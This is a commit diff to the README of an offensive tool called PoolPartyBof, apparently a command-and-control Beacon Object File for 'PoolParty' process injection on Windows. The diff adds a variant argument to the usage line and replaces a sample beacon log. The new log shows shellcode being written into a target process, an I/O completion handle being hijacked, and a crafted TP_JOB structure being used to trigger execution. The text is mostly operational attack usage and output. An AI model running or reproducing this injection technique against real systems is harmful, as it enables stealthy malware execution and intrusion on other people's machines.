

Update README.md

diff --git a/README.md b/README.md
@@ -11,43 +11,43 @@ I will try to keep adding remaining variants.
 
 ## Usage
 ```
-PoolPartyBof <Process ID> <Listener Name>
+PoolPartyBof <Process ID> <Listener Name> <Variant>
 ```
 
 - Usage Examples
 
 ```
-beacon> PoolPartyBof 7216 HTTPSLocal
-[*] Opening 7216 and running PoolParty with HTTPSLocal listener!
-[+] host called home, sent: 314052 bytes
+PoolPartyBof 3092 HTTPSLocal 6
+[*] Opening 3092 and running PoolParty (6 Varient) with HTTPSLocal listener!
+[+] host called home, sent: 313519 bytes
 [+] received output:
 [INFO] 	Shellcode Size: 307204 bytes
 [+] received output:
-[INFO] 	Starting PoolParty attack against process id: 7216
+[INFO] 	Starting PoolParty attack against process id: 3092
 [+] received output:
-[INFO] 	Retrieved handle to the target process: 00000000000003F0
+[INFO]   Retrieved handle to the target process: 0000000000000670
 [+] received output:
-[INFO] 	Hijacked worker factory handle from the target process: 00000063245AF458
+[INFO]   Hijacked I/O completion handle from the target process: 66c
 [+] received output:
-[INFO] 	Hijacked timer queue handle from the target process: 00000063245AF458
+[INFO]   Allocated shellcode memory in the target process: 0000021331760000
 [+] received output:
-[INFO] 	Allocated shellcode memory in the target process: 0000029B99E10000
+[INFO]   Written shellcode to the target process
 [+] received output:
-[INFO] 	Written shellcode to the target process
+[INFO] 	Created job object with name `HDWCJWPZ`
 [+] received output:
-[INFO] 	Retrieved target worker factory basic information
+[INFO] 	Created TP_JOB structure associated with the shellcode
 [+] received output:
-[INFO] 	Created TP_TIMER structure associated with the shellcode
+[INFO] 	Allocated TP_JOB memory in the target process: 00000213313F0000
 [+] received output:
-[INFO] 	Allocated TP_TIMER memory in the target process: 0000029B99E60000 
+[INFO] 	Written the specially crafted TP_JOB structure to the target process
 [+] received output:
-[INFO] 	Written the specially crafted TP_TIMER structure to the target process
+[INFO] 	Zeroed out job object `HDWCJWPZ` IO completion port
 [+] received output:
-[INFO] 	Modified the target process's TP_POOL timer queue WindowsStart and Windows End to point to the specially crafted TP_TIMER
+[INFO] 	Associated job object `HDWCJWPZ` with the IO completion port of the target process worker factory
 [+] received output:
-[INFO] 	Set the timer queue to expire to trigger the dequeueing TppTimerQueueExpiration
+[INFO] 	Assigned current process to job object `HDWCJWPZ` to queue a packet to the IO completion port of the target process worker factory
 [+] received output:
-[INFO] 	PoolParty attack completed successfully
+[INFO] 	PoolParty attack completed.
 ```
 
 ![](img/PoolPartyBof.png)
